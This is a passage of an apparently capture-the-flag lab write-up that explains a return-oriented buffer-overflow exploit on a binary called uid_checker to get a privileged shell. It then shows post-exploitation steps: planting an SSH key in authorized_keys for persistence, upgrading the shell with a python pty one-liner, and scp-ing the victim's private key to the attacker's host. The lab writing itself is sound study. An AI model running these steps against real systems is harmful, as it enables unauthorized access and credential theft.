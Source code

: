 On the surface, this exploit overwrites the call stack so when the main function returns, it looks up the next address on the stack which I now have control over. First, it pops a memory address that points to the binary's bss section off the stack and into the `rdi` register. The following call to `gets` is where the string `/bin/sh` is sent to standard input. I chose the bss memory address arbitrarily since I only need to make sure it points to a bit of memory that I can read to and write from. This can be verified with the binary's virtual memory map.

```text
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
          0x400000           0x401000 r-xp     1000 0      /home/kali/THM/dave/uid_checker
          0x600000           0x601000 r--p     1000 0      /home/kali/THM/dave/uid_checker
          0x601000           0x602000 rw-p     1000 1000   /home/kali/THM/dave/uid_checker
```


After that, it loads the same address into `rdi` again to call `system` later. `system` loads its argument from the content of the `rdi` register which was just set to `/bin/sh`, thereby granting access to a privileged shell.

There is a neat trick that I didn't know about until very late into my research. The opcode for `pop r15` is `41 5f` whereas the opcode for `pop rdi` is `5f`. `pop rdi` is a gadget to pop the next address on the stack into the `rdi` register. `rdi` usually points to some memory which acts as a destination for string-based operations like `gets`.

Knowing what the opcodes look like, it's easy to turn a `pop r15` into a `pop rdi` by just incrementing the memory address by one byte. In the binary, you'll find that the instructions located at `0x400802` are actually `pop r15 ret`. If I instead point execution to `0x400803`, I get a `pop rdi ret`.

In order to use the exploit remotely, I had to create an SSH key on Dave's account, attach the public key to his `authorized_keys` file and send the identity file to my local machine. For this to work, you might have to upgrade your reverse shell.

```text
$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/dave/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Created directory '/home/dave/.ssh'.
Your identification has been saved in /home/dave/.ssh/id_rsa.
Your public key has been saved in /home/dave/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:JQyWdFWJ3/7cGSTkXI5ePu0zUc17+JON9qlrF+WtbPY dave@daves-blog
The key's randomart image is:                           
+---[RSA 2048]----+
|     .+....o..   |
|     ..+  . .. . | 
|        o ..+.+..|
|         o  .=.+=|
|        S   ..=o*|
|             .oB=|
|             . B@|
|             .BBO|
|            .*++E|
+----[SHA256]-----+
$ cd .ssh
$ cat id_rsa.pub > authorized_keys
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ scp id_rsa kali@###.###.###.###:~
scp id_rsa kali@###.###.###.###:~ 
The authenticity of host '###.###.###.### (###.###.###.###)' can't be established.
ECDSA key fingerprint is SHA256:###########################################.
Are you sure you want to continue connecting (yes/no)?

Warning: Permanently added '###.###.###.###' (ECDSA) to the list of known hosts.
```
